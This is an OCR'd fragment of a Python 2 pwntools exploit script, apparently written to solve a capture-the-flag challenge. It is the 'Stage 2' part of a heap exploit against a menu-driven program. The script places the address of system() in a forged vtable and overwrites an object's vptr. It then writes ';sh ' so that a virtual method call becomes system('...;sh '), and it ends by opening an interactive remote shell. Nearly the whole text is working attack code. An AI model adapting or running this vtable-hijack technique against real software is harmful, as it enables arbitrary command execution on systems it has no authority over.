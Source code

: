 ```python
    # delete set after using
    r.sendline("4")
    r.sendline("0")
    
print "====== Stage 2, call system() ======"
print "[+] Add system() addr to set 1, offset 40 from set 0"
write_value_to_offset(40, system_addr)
vtable_addr         = alloc_start_addr + 24 + 41 * 4 - 8
print "vtable located at:         %#08x" %  vtable_addr

print "[+] Write vptr of set 1 (offset 34) to vtable_addr"
write_value_to_offset(34, vtable_addr)

# `this` is first parameter to system()
# make sure finally we have system("blahblah;sh ")
print "[+] Write \";sh \" to vptr + 4 of set 1"
write_value_to_offset(35, u32(";sh "))

print "[+] Make the call"
r.sendline("2")
r.sendline("1")
r.sendline("1337")

r.interactive()

```
